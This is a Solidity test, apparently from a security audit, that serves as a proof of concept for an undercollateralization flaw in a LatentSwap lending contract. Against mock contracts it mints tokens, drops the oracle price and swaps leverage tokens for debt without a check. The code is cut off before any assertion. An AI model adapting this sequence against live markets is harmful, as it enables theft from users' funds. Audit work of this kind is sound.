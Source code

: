 ```solidity
    function test_PoC_undercollateralizedUnchecked() external {
        UnderCollateralizedTestParams memory params;

        // Set initial supply
        params.initialSupply = WadRayMath.WAD * 100; // 100 WAD
        params.reducedBasePrice = WadRayMath.WAD * 55 / 100; // 0.55 WAD

        // deploy latentSwapLEX liquid
        MockLatentSwapLEX latentSwapLEX = new MockLatentSwapLEX(
            address(this),
            P_MAX,
            P_MIN,
            P_TARGET,
            P_LIM_H,
            P_LIM_L,
            10 ** 18,
            DURATION,
            255
        );

        // Initialize
        MarketId marketId = MarketId.wrap(keccak256("Random market (LatentSwap does not verify)"));
        MarketParams memory marketParams = MarketParams({
            baseToken: _mockBaseAsset,
            quoteToken: _mockQuoteAsset,
            oracle: _mockOracle,
            lex: address(latentSwapLEX)
        });
        latentSwapLEX.initMarket(marketId, marketParams, 0, hex"");

        (params.initialATokenSupply, params.initialZTokenSupply, , ) = latentSwapLEX.mint(
            MintParams({
                marketId: marketId,
                marketParams: marketParams,
                baseAmountIn: params.initialSupply,
                to: address(this),
                minATokenAmountOut: 0,
                minZTokenAmountOut: 0
            }),
            address(this),
            0
        );

        // reduce price
        MockOracle(_mockOracle).setPrice(params.reducedBasePrice);


        latentSwapLEX.swap(
            SwapParams({
                marketId: marketId,
                marketParams: marketParams,
                assetIn: AssetType.LEVERAGE,
                assetOut: AssetType.DEBT,
                to: address(this),
                amountSpecified: params.initialATokenSupply * 40 / 100, // Try to swap half of aTokens,
                amountLimit: 0,
                isExactIn: true
            }),
            address(this),
            params.initialSupply
        );

```
